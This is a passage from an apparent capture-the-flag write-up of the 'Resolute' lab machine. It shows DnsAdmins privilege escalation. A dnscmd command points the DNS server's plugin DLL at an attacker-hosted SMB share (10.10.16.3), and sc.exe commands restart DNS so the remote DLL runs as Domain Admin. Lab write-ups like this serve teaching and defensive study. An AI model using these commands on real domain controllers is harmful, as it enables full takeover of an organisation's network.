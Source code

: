*after that,* we're going to reconfigure the **DNS** service using `dnscmd` with the `/config` flag along with `/serverlevelplugindll` pointing to our **SMB** share named `share`. It should be as below:

```
dnscmd /config /serverlevelplugindll \\10.10.16.3\share\adduser.dll
```

we can then trigger the execution by stopping the **DNS** service and restarting it.

```shell
sc.exe stop dns
sc.exe start dns
```

![dns-admins-abuse](/assets/Resolute/dns-admins-abuse.jpg)

we get a connect back on our **SMB** share and code execution occures giving us the **Domain Admin** in our hands

![got-domain-admin](/assets/Resolute/got-domain-admin.jpg)

